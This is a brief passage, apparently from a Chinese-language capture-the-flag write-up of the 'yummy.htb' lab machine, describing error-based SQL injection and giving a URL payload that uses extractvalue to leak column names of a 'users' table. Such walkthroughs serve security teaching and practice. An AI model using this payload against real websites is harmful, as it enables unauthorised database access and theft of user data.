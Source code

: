 并且通过`union`注入我发现存在**报错注入**的可能性

![](./images/image-178.png)

尝试使用`Extractvalue`报错引出`User`

![](./images/image-179.png)

```
http://yummy.htb/admindashboard?s=edu&o=ASC;select extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_name='users')))
```

